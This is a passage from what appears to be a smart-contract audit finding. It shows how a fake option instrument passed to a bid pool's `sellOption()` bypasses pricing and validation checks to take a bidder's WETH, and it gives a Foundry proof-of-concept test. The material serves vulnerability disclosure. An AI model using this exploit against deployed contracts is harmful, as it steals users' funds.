 They can then call `sellOption()` with this fake instrument, and a value for `saleProceeds` that equals the lower of `underlying asset price - fee - 1` or `user's WETH balance - fee`.

Let's trace the flow of this attack through the contract:

1) In `_performSellOptionOrderChecks()`, we grab the strike price and expiration directly from the inputted contract. We can set the expiry to ensure we pass the checks ensuring that the expiration time is between `block.timestamp + order.minOptionDuration` and `block.timestamp + order.maxOptionDuration`.

2) The strike price and expiry are used in `_computeOptionAskAndBid()` to determine the price. By setting the strike price to 1, Black Scholes will return a value for the option of approximately the full price of the underlying asset. We also pass the `bid >= ask` check, because the bid will equal the underlying asset price, while we calculated the `saleProceed` value to ensure that, even with the fee added, it would stay below this threshold.

3) We also call `_validateOptionProperties()` with this address, but we can specify the return values from calls to the contract however we want to ensure we pass the `validateProperty` checks.

4) Finally, we call `safeTransferFrom()` on our phony address, which will transfer nothing to the buyer.

5) We then transfer `saleProceeds` from the maker to ourselves, and the fee to the protocol. Because we set `saleProceeds` intentionally to ensure that the resulting value would be less than or equal to the user's WETH balance, these transactions succeed and we steal the assets from the user.

### Proof of Concept

Here is a drop in test that can be added to your `HookBidPoolTest.t.sol` file to validate the finding.

In this case, I've assumed an underlying asset value of 50 ETH to take advantage of the user's account balance of 50 ETH, but other than that, used the original test setup and signing.
```solidity
function testZach__StealWithFakeInstrument() public {
    vm.warp(block.timestamp + 20 days);
    PoolOrders.Order memory order = _makeDefaultOrder();
    (Signatures.Signature memory signature, bytes32 orderHash) = _signOrder(order, bidderPkey);

    address fakeInstrument = address(new FakeInstrument());

    console.log("Victim Starting Balance: ", weth.balanceOf(address(bidder)));
    console.log("Attacker Starting Balance: ", weth.balanceOf(address(seller)));

    vm.prank(address(seller));
    bidPool.sellOption(
        order,
        signature,
        _makeAssetPriceClaim(50 ether),
        _makeOrderClaim(orderHash),
        47.5 ether,
        fakeInstrument,
        0
    );

    console.log("Victim Ending Balance: ", weth.balanceOf(address(bidder)));
    console.log("Attacker Ending Balance: ", weth.balanceOf(address(seller)));
}
```
